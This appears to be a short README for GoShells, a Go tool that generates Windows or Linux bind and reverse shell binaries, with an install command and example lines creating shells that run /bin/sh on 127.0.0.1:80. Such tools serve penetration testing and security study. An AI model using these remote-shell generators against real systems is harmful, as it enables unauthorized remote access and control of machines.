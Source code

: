 # GoShells

Quick tool to create Windows/Linux Bind or reverse shells binaries

## Installation

```shell
go install github.com/shoriwe/GoShells/cmd/goshells
```

## Usage

### Create a bind based command execution

```shell
goshells shell.elf bind 127.0.0.1:80 /bin/sh
```

### Create a reverse based command execution

```shell
goshells shell.elf reverse 127.0.0.1:80 /bin/sh
```
